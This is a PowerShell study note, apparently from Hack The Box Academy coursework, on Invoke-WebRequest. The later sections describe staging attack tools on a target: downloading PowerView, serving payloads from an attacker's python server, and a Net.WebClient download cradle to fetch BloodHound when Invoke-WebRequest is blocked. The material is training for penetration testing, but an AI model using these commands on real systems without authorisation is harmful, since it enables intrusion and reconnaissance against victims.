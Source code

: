 # Web Interaction with PowerShell

#Windows #PowerShell Command Line ( #CLI) can be used to interact with internet resources in the same way that #Linux uses #cURL and #wget  to parse information. We are able to perform #HTTP and #HTTPS requests, submit #GET and #POST requests, parse #HTML data, download resources, authenticate, and establish a session with a website.

### Invoke-WebRequest

The Invoke-WebRequest #cmdlet is used in the same was as curl, wget, and #iwr - and in fact can be used as aliases for the cmdlet. Anyone that is familiar with Linux methods of web interaction will find this material familiar.

#### WebRequest Help

The Invoke-WebRequest cmdlet is powerful and can be complicated - it is useful to read through the related help page to understand the syntax and functions of the utility. 

Run the following command to see the help page for Invoke-WebRequest:

>Get-Help Invoke-WebRequest

### Performing Web Requests

A straightforward web request is a Get request - we can use the -Method Get modifier and the Get-Member cmdlet to output an objects methods and properties with the following command:

>Invoke-WebRequest -Uri "\https://web.ics.purdue.edu/\~gchopra/class/public/pages/webdesign/05_simple.html" -Method GET | Get-Member

#### Filtering Output

The output from our last command is a bit overwhelming and dense with information.

We can filter the output to include only data related to images with the following command:

>Invoke-WebRequest -Uri "\https://web.ics.purdue.edu/\~gchopra/class/public/pages/webdesign/05_simple.html" -Method GET | fl Images

#### Raw Content

The Raw Content output contains more concise information such as names, addresses, and emails.

We can use the following command to filter for raw content:

>Invoke-WebRequest -Uri "\https://web.ics.purdue.edu/\~gchopra/class/public/pages/webdesign/05_simple.html" -Method GET | fl RawContent

### Downloading Files

A useful tool called #PowerView can be used to download resources from the internet and locally. A useful and clever method for installing payloads onto a target host is to run a #python server on your client. You have the payloads on your machine, start the python server, ssh into the target, and then curl the files onto the target from our client machine.

Use the following command to install PowerView:

>Invoke-WebRequest -Uri "\https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1" -OutFile "C:\\PowerView.ps1"

### Importing Tools to Target Host

We can download the PowerView.ps1 file on our attack host and then run a python server to host the file. We need to first locate the file and move into the directory that contains it. 

#### Starting a Python Server

Once we are in the directory that contains our PowerView.ps1 file, we can then run a python server on our attack host with the following command:

>python3 -m http.server 8000

#### Downloading to Target Host

Once our server is initialized on our attack host, we can then move to download the files onto the target host. We will need to SSH into our target and then execute some commands to download the tools.

We will use the Invoke-WebRequest cmdlet to connect to the server we are running and download the file onto the target with the following command:

>Invoke-WebRequest -Uri "\http://10.10.10.10:8000/PowerView.ps1" -OutFile "C:\\PowerView.ps1"

### When Invoke-WebRequest is Blocked

Sometimes the Invoke-WebRequest cmdlet will be unavailable to us. In this case we will need to use other Windows methods to retrieve resources from a web client. We can use the Windows class .Net.WebClient as a .Net call that uses system.net methods for retrieving resources. 

Here is an example command of how you might use this .Net call to download a file onto a target host:

>(New-Object Net.WebClient).DownloadFile("\https://github.com/BloodHoundAD/BloodHound/releases/download/4.2.0/BloodHound-win32-x64.zip", "Bloodhound.zip")

This command is composed of several parts:

- Download Cradle: (New-Object Net.WebClient).DownloadFile() - this executes our request.
- File #URI: "\https://github.com/BloodHoundAD/BloodHound/releases/download/4.2.0/BloodHound-win32-x64.zip"
- File name for the download: "Bloodhound.zip"

Once you perform this command, check the directory to see if the resource Bloodhound.zip exists on your target. You can now extract the tools and execute them. This is considered the 'noisy' part of the process because these activities will be logged by the target. 

### Related:

- [Hack The Box Academy](https://academy.hackthebox.com/ 'hack the box academy home page')
- [HTB Academy PowerShell Web Interaction](https://academy.hackthebox.com/module/167/section/1627 'HTB academy PowerShell web interaction guide')
- [012 Windows Command Line Tools](012%20Windows%20Command%20Line%20Tools.md)
- [012 Windows Network Command Line](012%20Windows%20Network%20Command%20Line.md)
- [013 Additional Windows Tools](013%20Additional%20Windows%20Tools.md)
- [015 Windows Settings](015%20Windows%20Settings.md)
- [031 Troubleshooting Windows](031%20Troubleshooting%20Windows.md)
- [1604 HTB Command Prompt and PowerShell](1604%20HTB%20Command%20Prompt%20and%20PowerShell.md)]